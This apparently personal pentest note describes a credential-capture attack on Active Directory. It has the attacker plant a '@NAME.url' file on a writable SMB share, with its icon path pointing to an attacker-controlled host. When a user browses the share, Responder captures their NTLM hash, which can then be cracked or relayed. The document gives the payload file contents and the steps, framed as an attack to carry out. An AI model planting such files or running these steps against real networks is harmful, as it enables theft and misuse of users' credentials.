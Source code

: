 # Overview
to execute this attack we need to have writable share and add our script in it 
and name the file "@NAME.url"
and then run responder
once the user access the share file the hash will be dumped in responder
you can try to crack the hash or use [smbrelay](SMB_Relay)

Script:

```powershell
URL=blah
WorkingDirectory=blah # or URL
IconFile=\\ATTACKER_IP\%USERNAME%.icon
Resources:
```

---
Tags: #AD #social_engineering #SCF #smb 
Resources:[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share) 